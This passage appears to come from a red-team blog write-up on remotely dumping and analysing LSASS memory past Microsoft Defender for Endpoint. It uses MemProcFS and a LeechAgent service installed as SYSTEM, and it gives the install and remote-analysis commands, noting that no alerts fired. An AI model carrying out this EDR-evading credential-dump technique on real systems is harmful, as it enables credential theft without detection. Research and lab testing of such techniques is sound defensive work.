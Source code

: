 Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)


### Remote Binary execution against EDR (MDE) - MemProcFS 

It is possible to use MemProcFS to remotely perform the analysis as showcased [here](https://github.com/ufrisk/MemProcFS/wiki/_Remoting). 

Spawn another testmachine. We will be performing the dump from non-domain joined machines. One requirement is the installation of the [leechAgent](https://github.com/ufrisk/LeechCore/releases/tag/v2.16) on the target running as a service. This can be done remotely in a domain joined environment. In this case we install this agent on the target manually.

Make sure this service is running as SYSTEM. Next on the remote computer perform a dump analysis as above using the `-remote` and `-remotefs` parameters as follows:

```
C:\Tools\LeechAgent_files_and_binaries_v2.16.0-win_x64-20230820> .\leechagent.exe -install
LeechAgent: Service installed successfully.

C:\Tools\LeechAgent_files_and_binaries_v2.16.0-win_x64-20230820> sc query leechagent
SERVICE_NAME: leechagent
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Now on the remote system run MemProcFS as follows:

```
C:\Tools>.\MemProcFS\MemProcFS.exe -device C:\Tools\TestMachine4-20230825-103250.dmp -remote smb://ntlm:10.1.1.4:logon -remotefs
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230825182059.png)
